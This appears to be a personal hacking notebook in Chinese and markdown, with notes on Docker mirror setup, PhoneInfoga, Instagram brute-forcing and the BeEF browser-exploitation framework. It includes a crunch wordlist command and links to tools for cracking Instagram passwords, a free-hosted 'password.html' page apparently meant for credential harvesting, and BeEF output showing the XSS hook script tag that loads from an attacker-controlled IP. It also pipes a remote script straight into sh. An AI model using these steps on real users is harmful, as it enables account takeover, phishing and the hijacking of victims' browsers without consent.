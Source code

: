 [配置 Docker 镜像站](https://www.daocloud.io/mirror)
```bash
curl -sSL https://get.daocloud.io/daotools/set_mirror.sh | sh -s http://f1361db2.m.daocloud.io
```

## system hacking


## phoneinfoga 查找电话相关的信息
https://github.com/sundowndev/PhoneInfoga

## instagram hack brute force
crunch 7 8 xy123 -o instaworldlist

https://github.com/Bitwise-01/Instagram-
https://github.com/0xfff0800/Brute-force-Instagram-2021
http://www.000webhost.com
https://xxx.000webhostapp.com/password.html

## Beef github
https://github.com/beefproject/beef

error:Your RubyGems was installed trough APT ..
https://stackoverflow.com/questions/13626143/how-to-upgrade-rubygems
gem install rubygems-update
update_rubygems
  gem install nokogiri
  gem install rubygems-update
  gem uninstall nokogiri
  gem uninstall -i /usr/share/rubygems-integration/2.7.0 nokogiri
  gem uninstall rubygems-update
gem update --system

这个最好在root下也做一次
$ gem sources --add https://gems.ruby-china.com/ --remove https://rubygems.org/

$ bundle config mirror.https://rubygems.org https://gems.ruby-china.com


Beef 是一个和 metasploit一样的攻击框架

```bash
apt install beef-xss
beef-xss
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; vendor preset: disabled)
     Active: active (running) since Mon 2021-03-29 01:10:48 CST; 5s ago
   Main PID: 4682 (ruby)
      Tasks: 3 (limit: 9466)
     Memory: 69.6M
        CPU: 2.487s
     CGroup: /system.slice/beef-xss.service
             └─4682 ruby /usr/share/beef-xss/beef

Mar 29 01:10:48 kali systemd[1]: Started beef-xss.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1... 
```
